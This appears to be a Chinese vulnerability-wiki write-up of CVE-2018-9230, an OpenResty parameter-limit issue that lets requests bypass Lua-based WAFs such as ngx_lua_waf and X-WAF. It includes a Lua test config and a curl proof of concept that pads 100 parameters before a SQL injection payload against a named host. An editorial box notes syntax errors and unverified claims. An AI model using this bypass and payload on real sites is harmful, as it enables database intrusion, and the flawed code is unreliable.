

# （CVE-2018-9230）bypass OpenResty waf

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：WAF只检查前100项且不拒绝截断，后端仍处理后续参数；真正利用需后端另有被WAF保护的漏洞
- 证据范围：这是检测覆盖与后端解析不一致，不是内存参数溢出；默认解析限额本身为防DoS设计。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 简介说接受参数数量可以超过100与真实行为只取前100不一致
- 升级OpenResty本身是否充分需核截断错误返回及WAF调用方处理，不能称所有基于OpenResty保护都可绕
- Lua示例智能引号会语法错误；curl有原始空格且尾部单引号未闭合
- 参数大小写区分通常合法语义，不是另一个漏洞
- 没有WAF版本/规则配置、修复/检测截断建议，图片尾巴残渣
- CVE当前争议/有效状态待原厂核验，不能仅现文定全范围

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

OpenResty是一款基于Nginx和Lua的Web平台。该平台用于搭建用于处理高并发、高扩展性的动态Web应用、Web服务和动态网关。OpenResty1.13.6.1之前的版本中存在安全漏洞，该漏洞源于程序使用`ngx.req.get_uri_args`和`ngx.req.get_post_args`函数接受参数的数量可以超过100个。远程攻击者可利用该漏洞绕过访问限制，干预Web应用程序防火墙(ngx\_lua\_waf或X-WAF)产品。

二、漏洞影响
------------

OpenResty \< 1.13.6.1

三、复现过程
------------

漏洞分析
--------

### A、uri参数获取

首先看一下官方 API 文档，获取一个 uri
有两个方法：`ngx.req.get_uri_args`、`ngx.req.get_post_args`，二者主要的区别是参数来源有区别，`ngx.req.get_uri_args`获取
uri 请求参数，`ngx.req.get_post_args`获取来自 post 请求内容。

**测试用例：**

    server {
    listen 80;
    server_name localhost;

    location /test {
    content_by_lua_block {
    local arg = ngx.req.get_uri_args()
    for k,v in pairs(arg) do
    ngx.say(“[GET ] key:”, k, “ v:”, v)
    end
    ngx.req.read_body()
    local arg = ngx.req.get_post_args()
    for k,v in pairs(arg) do
    ngx.say(“[POST] key:”, k, “ v:”, v)
    end
    }
    }
    }

**输出测试：**

bypassOpenRestywaf/media/rId26.png)

### B、参数大小写

当提交同一参数id，根据接收参数的顺序进行排序，

可是当参数id，进行大小写变换，如变形为Id、iD、ID，则会被当做不同的参数。

bypassOpenRestywaf/media/rId28.png)

这里，介绍参数大小写，主要用于进一步构造和理解测试用例。

### C、参数溢出

如果当我们不段填充参数，会发生什么情况呢，为此我构造了一个方便用于展示的测试案例，a0-a9，10\*10,共100参数，然后第101个参数添加SQL注入
Payload，我们来看看会发生什么？

测试用例：`curl 'www.0-sec.org/test?a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata`

**输出结果：**

bypassOpenRestywaf/media/rId30.png)

可以看到，使用`ngx.req.get_uri_args`获取uri
请求参数，只获取前100个参数，第101个参数并没有获取到。继续构造一个POST请求，来看一下：

bypassOpenRestywaf/media/rId31.png)

使用`ngx.req.get_post_args`
获取的post请求内容，也同样只获取前100个参数。

检查这两个函数的文档，出于安全原因默认的限制是100，它们接受一个可选参数，最多可以告诉它应该解析多少GET
/
POST参数。但只要攻击者构造的参数超过限制数就可以轻易绕过基于OpenResty的安全防护，这就存在一个uri参数溢出的问题。

综上，通过`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，当提交的参数超过限制数（默认限制100或可选参数限制），uri参数溢出，无法获取到限制数以后的参数值，更无法对攻击者构造的参数进行有效安全检测，从而绕过基于OpenResty的WEB安全防护。

漏洞复现
--------

基于OpenResty构造的WEB安全防护，大多数使用`ngx.req.get_uri_args`、`ngx.req.get_post_args`获取uri参数，即默认限制100，并没有考虑参数溢出的情况，攻击者可构造超过限制数的参数，轻易的绕过安全防护。基于OpenResty的开源WAF如：ngx\_lua\_waf、X-WAF、Openstar等，均受影响。

### A、ngx\_lua\_waf

ngx\_lua\_waf是一个基于lua-nginx-module(openresty)的web应用防火墙

github源码：https://github.com/loveshell/ngx\_lua\_waf

**拦截效果图：**

bypassOpenRestywaf/media/rId34.png)

**利用参数溢出Bypass：**bypassOpenRestywaf/media/rId35.png)

### B、X-WAF

X-WAF是一款适用中、小企业的云WAF系统，让中、小企业也可以非常方便地拥有自己的免费云WAF。

官网：[https://waf.xsec.io](https://waf.xsec.io/)

github源码：https://github.com/xsec-lab/x-waf

**拦截效果图：**

bypassOpenRestywaf/media/rId38.png)

**利用参数溢出Bypass：**

bypassOpenRestywaf/media/rId39.png)

参考链接
--------

> https://www.anquanke.com/post/id/103771
